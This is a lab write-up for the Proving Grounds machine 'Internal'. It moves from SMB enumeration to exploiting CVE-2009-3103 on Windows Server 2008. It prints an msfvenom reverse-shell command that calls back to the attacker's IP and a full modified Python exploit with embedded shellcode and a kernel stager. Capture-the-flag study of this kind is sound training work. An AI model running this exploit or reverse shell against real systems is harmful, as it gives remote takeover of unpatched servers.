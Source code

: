```yaml
---
description: Writeup for Internal from Offensive Security Proving Grounds (PG)
---
```


# Internal

## Information Gathering

### Service Enumeration

`nmapAutomator.sh -H 192.168.134.40 -t full`

![](../../.gitbook/assets/1d90b2dfea4c474087242e8ce2a7b188.png)

### SMB

SMB is running and null sessions are allowed.

`enum4linux 192.168.134.40`

Nothing much interesting. Access denied for most queries.

From the scan results we can see the Windows version: `Windows Server (R) 2008 Standard 6001 Service Pack 1 microsoft-ds`

That's pretty old. Let's run a vulnerability scan: `nmapAutomator.sh -H 192.168.134.40 -t vulns`

![](../../.gitbook/assets/b26d7af1bc1e4a4699759230c5e1f6bf.png)

Vulnerability: CVE-2009-3103 \(SMBv2 RCE\)

Exploit code: [https://www.exploit-db.com/exploits/40280](https://www.exploit-db.com/exploits/40280)

## Exploit

Generate shellcode: `msfvenom -p windows/shell/reverse_tcp LHOST=192.168.49.134 LPORT=4444 EXITFUNC=thread -f c`

Add the shellcode output to the above exploit code.

Modified exploit code:

```python
# EDB-Note: Source ~ https://raw.githubusercontent.com/ohnozzy/Exploit/master/MS09_050.py

#!/usr/bin/python
#This module depends on the linux command line program smbclient. 
#I can't find a python smb library for smb login. If you can find one, you can replace that part of the code with the smb login function in python.
#The idea is that after the evil payload is injected by the first packet, it need to be trigger by an authentication event. Whether the authentication successes or not does not matter.
import tempfile
import sys
import subprocess
from socket import socket
from time import sleep
from smb.SMBConnection import SMBConnection


try:

    target = sys.argv[1]
except IndexError:
    print '\nUsage: %s <target ip>\n' % sys.argv[0]
    print 'Example: MS36299.py 192.168.1.1 1\n'
    sys.exit(-1)

shell = ("\xfc\xe8\x8f\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x31\xff\x0f\xb7\x4a\x26"
"\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\x49"
"\x75\xef\x52\x8b\x52\x10\x57\x8b\x42\x3c\x01\xd0\x8b\x40\x78"
"\x85\xc0\x74\x4c\x01\xd0\x8b\x58\x20\x8b\x48\x18\x01\xd3\x50"
"\x85\xc9\x74\x3c\x49\x31\xff\x8b\x34\x8b\x01\xd6\x31\xc0\xac"
"\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24"
"\x75\xe0\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c"
"\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59"
"\x5a\x51\xff\xe0\x58\x5f\x5a\x8b\x12\xe9\x80\xff\xff\xff\x5d"
"\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c\x77\x26"
"\x07\x89\xe8\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
"\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x68\xc0\xa8\x31\x86\x68\x02"
"\x00\x11\x5c\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea"
"\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5\x74\x61"
"\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67\x00\x00"
"\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83"
"\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a"
"\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56\x53\x57"
"\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x68\x00"
"\x40\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff\xd5\x57\x68"
"\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff\x0c\x24\x0f\x85\x70\xff"
"\xff\xff\xe9\x9b\xff\xff\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb"
"\xe0\x1d\x2a\x0a\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a"
"\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5")

host = target, 445

buff ="\x00\x00\x03\x9e\xff\x53\x4d\x42"
buff+="\x72\x00\x00\x00\x00\x18\x53\xc8"
buff+="\x17\x02" #high process ID
buff+="\x00\xe9\x58\x01\x00\x00"
buff+="\x00\x00\x00\x00\x00\x00\x00\x00"
buff+="\x00\x00\xfe\xda\x00\x7b\x03\x02"
buff+="\x04\x0d\xdf\xff"*25
buff+="\x00\x02\x53\x4d"
buff+="\x42\x20\x32\x2e\x30\x30\x32\x00"
buff+="\x00\x00\x00\x00"*37
buff+="\xff\xff\xff\xff"*2
buff+="\x42\x42\x42\x42"*7
buff+="\xb4\xff\xff\x3f" #magic index
buff+="\x41\x41\x41\x41"*6
buff+="\x09\x0d\xd0\xff" #return address

#stager_sysenter_hook from metasploit

buff+="\xfc\xfa\xeb\x1e\x5e\x68\x76\x01"
buff+="\x00\x00\x59\x0f\x32\x89\x46\x5d"
buff+="\x8b\x7e\x61\x89\xf8\x0f\x30\xb9"
buff+="\x16\x02\x00\x00\xf3\xa4\xfb\xf4"
buff+="\xeb\xfd\xe8\xdd\xff\xff\xff\x6a"
buff+="\x00\x9c\x60\xe8\x00\x00\x00\x00"
buff+="\x58\x8b\x58\x54\x89\x5c\x24\x24"
buff+="\x81\xf9\xde\xc0\xad\xde\x75\x10"
buff+="\x68\x76\x01\x00\x00\x59\x89\xd8"
buff+="\x31\xd2\x0f\x30\x31\xc0\xeb\x31"
buff+="\x8b\x32\x0f\xb6\x1e\x66\x81\xfb"
buff+="\xc3\x00\x75\x25\x8b\x58\x5c\x8d"
buff+="\x5b\x69\x89\x1a\xb8\x01\x00\x00"
buff+="\x80\x0f\xa2\x81\xe2\x00\x00\x10"
buff+="\x00\x74\x0e\xba\x00\xff\x3f\xc0"
buff+="\x83\xc2\x04\x81\x22\xff\xff\xff"
buff+="\x7f\x61\x9d\xc3\xff\xff\xff\xff"
buff+="\x00\x04\xdf\xff\x00\x04\xfe\x7f"
buff+="\x60\x6a\x30\x58\x99\x64\x8b\x18"
buff+="\x39\x53\x0c\x74\x2b\x8b\x43\x10"
buff+="\x8b\x40\x3c\x83\xc0\x28\x8b\x08"
buff+="\x03\x48\x03\x81\xf9\x6c\x61\x73"
buff+="\x73\x75\x15\xe8\x07\x00\x00\x00"
buff+="\xe8\x0d\x00\x00\x00\xeb\x09\xb9"
buff+="\xde\xc0\xad\xde\x89\xe2\x0f\x34"
buff+="\x61\xc3\x81\xc4\x54\xf2\xff\xff"

buff+=shell

s = socket()
s.connect(host)
s.send(buff)
s.close() 
#Trigger the above injected code via authenticated process.
subprocess.call("echo '1223456' | rpcclient -U Administrator %s"%(target), shell=True)
```

Use `exploit/multi/handler` to handle the staged payload \(remember to set the corresponding PAYLOAD and THREAD from msfvenom earlier.\)

![](../../.gitbook/assets/3a750d5ea9ae44ab933188c3f992fbeb.png)

![](../../.gitbook/assets/c1d6900740aa48788216bb24261a5f63.png)

